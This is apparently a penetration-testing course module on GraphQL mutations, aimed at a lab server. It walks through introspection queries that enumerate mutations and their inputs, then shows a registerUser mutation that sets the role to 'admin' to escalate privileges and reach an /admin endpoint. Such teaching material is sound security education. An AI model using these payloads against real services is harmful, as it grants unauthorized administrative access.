





# Mutations

---

In the `Introduction to GraphQL` section, we discussed various basic elements of GraphQL queries. However, you might have noticed that we only discussed ways to read data. Just like REST APIs, GraphQL also provides a way to modify data: `mutations`.

---

## What are mutations?

Mutations are GraphQL queries that modify server data. They can be used to create new objects, update existing objects, or delete existing objects.

Let us start by identifying all mutations supported by the backend and their arguments. We will use the following introspection query:

```
        graphql
query {
  __schema {
    mutationType {
      name
      fields {
        name
        args {
          name
          defaultValue
          type {
            ...TypeRef
          }
        }
      }
    }
  }
}

fragment TypeRef on __Type {
  kind
  name
  ofType {
    kind
    name
    ofType {
      kind
      name
      ofType {
        kind
        name
        ofType {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
              }
            }
          }
        }
      }
    }
  }
}
```

From the result, we can identify a mutation `registerUser`, presumably allowing us to create new users. The mutation requires a `RegisterUserInput` object as an input:

http://<SERVER\_IP>:<PORT>/graphql



We can now query all fields of the `RegisterUserInput` object with the following introspection query to obtain all fields that we can use in the mutation:

```
        graphql
{   
  __type(name: "RegisterUserInput") {
    name
    inputFields {
      name
      description
      defaultValue
    }
  }
}
```

From the result, we can identify that we can provide the new user's `username`, `password`, `role`, and `msg`:

http://<SERVER\_IP>:<PORT>/graphql



As we identified earlier, we need to provide the password as an MD5 hash. To hash our password, we can use the following command:

```
        shellsession
hiimeins@htb[/htb]$ echo -n 'password' | md5sum

5f4dcc3b5aa765d61d8327deb882cf99  -
```

With the hashed password, we can now finally register a new user by running the mutation:

```
        graphql
mutation {
  registerUser(input: {username: "vautia", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "user", msg: "newUser"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

The result contains the fields we queried in the mutation's body so that we can check for errors:

http://<SERVER\_IP>:<PORT>/graphql



We can now successfully log in to the application with our newly registered user.

---

## Exploitation with Mutations

To identify potential attack vectors through mutations, we must thoroughly examine all supported mutations and their corresponding inputs. In this case, we can provide the `role` argument for newly registered users, which might enable us to create users with a different role than the default role, potentially allowing us to escalate privileges.

We have identified the roles `user` and `admin` by querying all existing users. Let us create a new user with the role `admin` and check if this enables us to access the internal admin endpoint at `/admin`. We can use the following GraphQL mutation:

```
        graphql
mutation {
  registerUser(input: {username: "vautiaAdmin", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "Hacked!"}) {
    user {
      username
      password
      msg
      role
    }
  }
}
```

In the result, we can see that the role `admin` is reflected, which indicates that the attack was successful:

http://<SERVER\_IP>:<PORT>/graphql



After logging in, we can now access the admin endpoint, meaning we have successfully escalated our privileges:

http://<SERVER\_IP>:<PORT>/admin


